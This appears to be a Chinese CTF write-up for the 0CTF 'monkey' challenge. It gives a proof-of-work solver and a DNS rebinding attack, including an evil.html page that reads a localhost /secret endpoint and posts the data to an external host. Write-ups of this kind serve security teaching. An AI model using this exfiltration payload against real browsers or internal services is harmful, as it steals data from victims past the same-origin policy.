 # monkey 4pts

上来就是一个PoW(proof of work)，如下解之：
```python
def solve(st):
    i = 0
    while True:
        s = hex(i)
        i += 1
        if hashlib.md5(s).hexdigest()[:6] == st:
            return s
```

由于monkey会在页面停留120s, 那么我们让他访问我们的'http://mydomain:8080/evil.html'后，页面里弄一个setTimeout，90s后ajax get一下'http://127.0.0.1:8080/secret'，在把这flag post到我们的主机上即可。所谓同源策略的话，在一开始把mydomain的A记录指向我们的服务器，ttl设为60s，在monkey访问页面mydomain:8080/evil.html后，马上把A记录改成127.0.0.1，90s后请求mydomain:8080/secret时就是请求127.0.0.1:8080/secret了。

evil.html如下：
```html
<!DOCTYPE html>
<html>
<head>
<script src="/jquery-1.10.2.js"></script>
<script>
function runTest() {
  setTimeout(function() {
        $.get('/secret', function(txt) {        
                $.post('http://somewhereelse/record',{data: txt},function(t){}, 'text');
        }, 'text');
  }, 90000);
}
</script>
</head>
<body onload="runTest()">
</body>
</html>
```

记得receive的时候，在somewhereelse/record发送头：`access-control-allow-origin: *`才能接收到flag`array ('data' => '0ctf{monkey_likes_banananananananaaaa}',)`
